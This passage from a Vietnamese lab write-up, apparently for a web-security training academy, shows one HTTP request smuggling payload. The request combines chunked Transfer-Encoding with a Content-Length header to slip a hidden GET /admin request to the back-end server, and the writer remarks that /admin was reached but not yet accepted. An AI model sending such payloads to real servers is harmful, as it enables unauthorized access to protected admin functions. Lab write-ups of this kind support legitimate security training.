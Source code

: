 ![alt text](image-11.png)

Với request:
```http
POST / HTTP/1.1
Host: 0a7c00d30373a148802cf47b00fa00ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 57

f
djr8x=x&um97b=x
0

GET /admin HTTP/1.1
X-Ignore: X
```
Ta đã có thể request `/admin` nhưng chưa được accept:\